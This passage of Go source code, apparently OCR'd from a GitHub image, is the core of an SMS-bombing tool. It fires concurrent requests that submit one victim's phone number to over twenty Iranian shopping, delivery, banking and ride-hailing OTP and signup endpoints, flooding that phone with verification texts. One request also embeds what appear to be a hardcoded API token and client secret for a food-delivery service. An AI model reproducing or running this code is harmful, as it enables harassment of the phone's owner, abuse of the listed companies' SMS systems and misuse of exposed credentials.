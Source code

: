 		}, ch)
		go sms("https://api.snapp.express/mobile/v4/user/loginMobileWithNoPass?client=PWA&optionalClient=PWA&deviceType=PWA&appVersion=5.6.6&optionalVersion=5.6.6&UDID=bb65d956-f88b-4fec-9911-5f94391edf85", map[string]interface{}{
			"cellphone": phone,
		}, ch)
		go sms("https://www.delino.com/user/register", map[string]interface{}{
			"mobile": phone,
		}, ch)
		go sms("https://alopeyk.com/api/sms/send.php", map[string]interface{}{
			"phone": phone,
		}, ch)
		go sms("https://1401api.tamland.ir/api/user/signup", map[string]interface{}{
			"Mobile": phone,
		}, ch)
		go sms("https://shop.opco.co.ir/index.php?route=extension/module/login_verify/update_register_code", map[string]interface{}{
			"telephone": phone,
		}, ch)
		go sms("https://api.digikalajet.ir/user/login-register/", map[string]interface{}{
			"phone": phone,
		}, ch)
		go sms("https://melix.shop/site/api/v1/user/otp", map[string]interface{}{
			"mobile": phone,
		}, ch)
		go sms("https://safiran.shop/login", map[string]interface{}{
			"mobile": phone,
		}, ch)
		go sms("https://restaurant.delino.com/user/register", map[string]interface{}{
			"'apiToken':'VyG4uxayCdv5hNFKmaTeMJzw3F95sS9DVMXzMgvzgXrdyxHJGFcranHS2mECTWgq','clientSecret':'7eVdaVsYXUZ2qwA9yAu7QBSH2dFSCMwq','device':'web','username'": phone,
		}, ch)
		go sms("https://garcon.tandori.ir/users/v1/main/login", map[string]interface{}{
			"phone": phone,
		}, ch)
		go sms("https://dastkhat-isad.ir/api/v1/user/store", map[string]interface{}{
			"mobile": phone,
		}, ch)
		go sms("https://irwco.ir/register", map[string]interface{}{
			"mobile": phone,
		}, ch)
		go sms("https://api.sibbank.ir/v1/auth/login", map[string]interface{}{
			"phone_number": phone,
		}, ch)
		go sms("https://api.snapp.ir/api/v1/sms/link", map[string]interface{}{
			"phone": phone,
		}, ch)
		go sms("https://www.miare.ir/api/otp/driver/request/", map[string]interface{}{
			"phone_number": phone,
		}, ch)
		go sms("https://api.arshiyan.com/send_code", map[string]interface{}{
			"'country_code':'98','phone_number'": phone,
		}, ch)
		go sms("https://backend.topnoor.ir/web/v1/user/otp", map[string]interface{}{
			"mobile": phone,
		}, ch)
		go sms("https://api.alinance.com/user/register/mobile/send/", map[string]interface{}{
			"phone_number": phone,
		}, ch)
		go sms("https://api.alopeyk.com/safir-service/api/v1/login", map[string]interface{}{
			"phone": phone,
		}, ch)
